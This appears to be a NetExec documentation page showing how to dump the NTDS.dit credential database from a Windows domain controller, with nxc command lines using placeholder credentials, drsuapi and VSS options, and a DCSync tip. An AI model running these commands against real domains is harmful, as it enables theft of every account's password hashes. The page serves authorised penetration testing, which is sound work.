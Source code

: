 # Dump NTDS.dit

### Dump the NTDS.dit from target DC using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

```
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}

Remember to play this music everytime you got DA

{% embed url="https://www.youtube.com/watch?v=SyjUwhBYa6Q" %}
